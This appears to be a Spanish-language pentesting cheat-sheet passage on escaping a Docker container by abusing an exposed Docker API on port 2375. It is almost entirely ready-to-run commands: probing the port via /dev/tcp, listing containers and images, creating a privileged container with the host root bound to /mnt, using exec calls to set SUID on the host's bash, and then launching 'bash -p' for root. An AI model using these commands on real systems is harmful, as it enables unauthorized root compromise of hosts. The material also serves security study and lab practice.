
### Forma 4

Para este caso vamos a abusar de la API de Docker. 
* Puerto de operación **2375**
* Puerto de operación con HTTPS **2376**

* [Enable-TCP-Port-2375-Docker](https://gist.github.com/styblope/dc55e0ad2a9848f2cc3307d4819d819f)

```bash 
❯ netstat -nat                           # Para mirar los puerto abiertos y encontrar el 3275, 3276
```

* [Hacktricks-2375/2376](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker)
Dentro del contenedor 
```bash 
❯ echo '' > /dev/tcp/172.17.0.1/2375     # Forma para saber si el puerto esta activo, si no devuleve nada quiee decir que el codigo de estado es exitoso

	# IP = Maquina host 
	# 2375 = Puerto de la API
```

Crearemos una imagen con nombre 'test', la raíz de la maquina host se desplegara en el dir **/mnt/** de muestro contenedor.
```bash 
❯  curl http://172.17.0.1:2375/containers/json | jq            # Listar los contenedores que existen 
❯  curl http://172.17.0.1:2375/images/json | jq                # Listar las imagenes que existen 

❯ curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/create?name=test -d '{"Image":"ubuntu:latest", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
```

```bash 
{"Id":"cf320dcc20e4d4e121bf7d7e1fa360e9883a00a7d8ddf3035001b91b219d936c"}
```

Nos desplegara un contenedor con un identificador similar. 

Colocaremos el ID anterior y se arrancara el contenedor con el nombre 'test'.
```bash 
❯ curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/cf320dcc20e4d4e121bf7d7e1fa360e9883a00a7d8ddf3035001b91b219d936c/start?name=test
```

Aquí es donde haremos la ejecución de comandos. Por lo que le asignaremos SUID a la bash del contenedor, pero como esta conectada al host, quiere decir que le asignaremos el SUID a la bash de host.
```bash 
❯ curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/cf320dcc20e4d4e121bf7d7e1fa360e9883a00a7d8ddf3035001b91b219d936c/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/bin/bash"]}'
```

Pero no se hace SUID automáticamente, si no que debemos de ejecutar el sig. comando con el ID que te regresa el comando anterior y esto ejecutara el comando y la hará SUID.
```bash 
❯ curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/exec/140e09471b157aa222a5c8783028524540ab5a55713cbfcb195e6d5e9d8079c6/start -d '{}'
```

Ahora en el host
```bash 
❯ bash -p                   # Nos lanzamos una bash con privilegios temporales
```
